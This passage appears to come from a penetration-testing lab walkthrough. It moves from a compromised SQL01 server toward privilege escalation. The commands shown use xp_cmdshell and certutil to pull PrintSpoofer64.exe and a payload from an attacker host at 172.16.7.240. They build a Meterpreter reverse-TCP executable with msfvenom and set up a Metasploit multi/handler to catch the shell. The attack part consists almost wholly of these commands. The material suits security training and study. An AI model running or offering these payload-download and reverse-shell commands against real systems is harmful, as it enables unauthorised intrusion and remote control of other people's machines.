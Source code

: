 ![](../imgs/Lab/Lab28/21.png)

From the SQL01 machine, download PrintSpoofer.exe from the attacker machine

```powershell
xp_cmdshell certutil -urlcache -f http://172.16.7.240:8000/PrintSpoofer64.exe C:\Users\Public\PrintSpoofer64.exe
```

![](../imgs/Lab/Lab28/22.png)

Use mfsvenom to create a reverse shell executable call `rshell.exe`

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.7.240 LPORT=8080 -f exe > rshell.exe
```

Similarly, send `rshell.exe` to the attack machine and send it to the target machine

```powershell
xp_cmdshell certutil -urlcache -f http://172.16.7.240:8000/rshell.exe C:\Users\Public\rshell.exe
```

![](../imgs/Lab/Lab28/23.png)

Configuring & Starting MSF multi/handler (msfconsole)

```zsh
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.7.240
set LPORT 8080
run
```

![](../imgs/Lab/Lab28/24.png)